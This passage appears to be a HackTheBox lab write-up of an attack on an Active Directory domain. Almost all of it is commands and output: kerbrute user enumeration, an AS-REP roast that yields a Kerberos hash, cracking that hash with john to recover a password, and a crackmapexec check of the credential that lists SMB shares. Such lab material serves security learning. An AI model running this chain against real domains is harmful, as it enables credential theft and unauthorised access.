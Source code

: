 Let's authenticate users with `kerbrute`
```
kerbrute userenum -d amzcorp.local --dc dc01.amzcorp.local users.txt  
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

>  Using KDC(s):
>  	dc01.amzcorp.local:88

>  [+] VALID USERNAME:	 jameshauwnnel@amzcorp.local
>  Done! Tested 1 usernames (1 valid) in 0.169 seconds
```

We can try `ASREPRoast`. If the user has `No Preauth`, we can get a `TGT`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ impacket-GetNPUsers amzcorp.local/jameshauwnnel -no-pass
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for jameshauwnnel
$krb5asrep$23$jameshauwnnel@AMZCORP.LOCAL:d4723d67f7bccb36d274580ffa26b40c$ceaa092a5f12e7a2303b232578a5b51abfb8789316b1eca6c85a3465586a6a3807fa2db6d547752eff32798db1c28dba68430ff4496bc515d9c32fb384de5ab9694232ea8e91b96f7054c3f06a6bb84a8ef5cabaa8a2bafb3a5ac976bab35176ba692cc93520c4f0c34eeb13ee3a2e05cbb95977431b39ca10d8066e1cb6dfc1a5e623a458de8fb2d765daa868784d8adf53bea229f4ee69037c9bed066911d642ba6b8ade14aa6215059a4711db068c468afbaae083e22107f39c46b6cff40e2a439c4bc9d32b97d01a6a9188af43b956df0ebe3ae66378f70067c9311feafb6d9113992a213a1f39269dc8e735

```

Just using `rockyou.txt` will not work properly, we need to apply some regex
```
john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash --rules:d3ad0ne
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 XOP 4x2])  
Press 'q' or Ctrl-C to abort, almost any other key for status
654221p!         ($krb5asrep$23$jameshauwnnel@AMZCORP.LOCAL)
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then we can use `crackmapexec` to check this credit
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ crackmapexec smb amzcorp.local -u jameshauwnnel -p 654221p! --shares
SMB         dc01.amzcorp.local 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:amzcorp.local) (signing:True) (SMBv1:False)
SMB         dc01.amzcorp.local 445    DC01             [+] amzcorp.local\jameshauwnnel:654221p! 
SMB         dc01.amzcorp.local 445    DC01             [+] Enumerated shares
SMB         dc01.amzcorp.local 445    DC01             Share           Permissions     Remark
SMB         dc01.amzcorp.local 445    DC01             -----           -----------     ------
SMB         dc01.amzcorp.local 445    DC01             ADMIN$                          Remote Admin
SMB         dc01.amzcorp.local 445    DC01             C$                              Default share
SMB         dc01.amzcorp.local 445    DC01             IPC$            READ            Remote IPC
SMB         dc01.amzcorp.local 445    DC01             NETLOGON        READ            Logon server share 
SMB         dc01.amzcorp.local 445    DC01             Product_Release READ            
SMB         dc01.amzcorp.local 445    DC01             SYSVOL          READ            Logon server share 
```
